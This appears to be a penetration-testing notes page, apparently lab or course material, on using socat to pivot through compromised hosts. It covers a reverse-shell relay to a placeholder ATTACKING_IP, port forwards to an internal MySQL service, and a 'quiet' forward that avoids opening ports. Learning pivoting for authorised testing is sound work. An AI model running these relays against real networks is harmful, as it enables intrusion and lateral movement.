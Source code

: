 ```yaml
---
description: >-
  Socat is not just great for fully stable Linux shells, it's also superb for
  port forwarding.
---
```


# Socat

The one big **disadvantage** of socat (aside from the frequent problems people have learning the syntax), is that it is **very rarely installed by default** on a target.

Whilst the following techniques could not be used to **set up a full proxy into a target network**, it is quite possible to use them to successfully **forward ports** from both Linux and Windows **compromised targets**. In particular, socat makes **a very good relay**:

* For example, if you are attempting to get a **shell** on a **target** that does not have a **direct connection back** to your attacking computer, you could use socat to set up **a relay** on the **currently compromised machine**. This **listens** for the reverse shell from the target and then **forwards it immediately** back to the **attacking box**:

![](<../../.gitbook/assets/image (50).png>)

`Socat static binaries :`

{% embed url="https://github.com/andrew-d/static-binaries" %}

```
Think of socat as a way to join two things together -- kind of like the Portal Gun in the Portal games, it creates a link between two different locations. This could be two ports on the same machine, it could be to create a relay between two different machines, it could be to create a connection between a port and a file on the listening machine, or many other similar things.

Generally speaking, however, hackers tend to use it to either create reverse/bind shells, or, as in the example above, create a port forward. 
Specifically, in the above example we're creating a port forward from a port on the compromised server to a listening port on our own box. We could do this the other way though, by either forwarding a connection from the attacking machine to a target inside the network, or creating a direct link between a listening port on the attacking machine with the service on the internal server. This latter application is especially useful as it does not require opening a port on the compromised server.
```



### Reverse Shell Relay

_Socat_ to create a relay for us to send a reverse shell back to our own attacking machine (as in the diagram above).

```
# 1. First start a nc listener on the attacking box
sudo nc -lvnp 443

# 2. Next, on the compromised server, to start the relay:
./socat tcp-l:8000 tcp:ATTACKING_IP:443 &

** Note: the order of the two addresses matters here. Make sure to open the listening port first, then connect back to the attacking machine.

- tcp-l:8000 is used to create the first half of the connection -- an IPv4 listener on tcp port 8000 of the target machine.
- tcp:ATTACKING_IP:443 connects back to our local IP on port 443. 
```

* In this way, we can set up **a relay to send reverse shells through a compromised system**, back to our own **attacking machine**. This technique can also be chained quite easily; however, in many cases it may be **easier** to just upload **a static copy of netcat** to receive your reverse shell **directly on the compromised server**.

### Port Forwarding -- Easy

With _socat_ simply to open up a **listening port** on the **compromised server**, and **redirect whatever comes** into it to the **target server**.

* For example, if the **compromised server** is 172.16.0.5 and the target is port 3306 of 172.16.0.10, we could use the following command (on the compromised server) to create **a port forward**:

```
./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &
# 33060 : the port we opened on the compromised server
# 3306 : the port opened on the intended target server

- fork : used to put every connection into a new process
- reuseaddr : the port stays open after a connection is made to it
- Combined, they allow us to use the same port forward for more than one connection. 
```

This opens up port 33060 on the compromised server and redirects the input from the attacking machine straight to the intended target server, essentially giving us access to the (presumably MySQL Database) running on our target of 172.16.0.10.

* We can now connect to port 33060 on the relay (172.16.0.5) and have our connection directly relayed to our intended target of 172.16.0.10:3306.

### Port Forwarding -- Quiet

This method is marginally more complex, but doesn't require opening up a port externally on the compromised server.

```
# 1. On the attacking machine :
socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
```

This opens up two ports: 8000 and 8001, creating a local port relay. What goes into one of them will come out of the other. For this reason, port 8000 also has the fork and reuseaddr options set, to allow us to create more than one connection using this port forward.

```
# 2. On the compromised relay server, execute:
./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &
```

This makes a connection between our listening port 8001 on the attacking machine, and the open port of the target server. To use the fictional network from before, we could enter this command as:

```
./socat tcp:10.50.73.2:8001 tcp:172.16.0.10:80,fork &

// This would create a link between port 8000 on our attacking machine, and port 80 on the intended target (172.16.0.10), meaning that we could go to localhost:8000 in our attacking machine's web browser to load the webpage served by the target: 172.16.0.10:80!
```
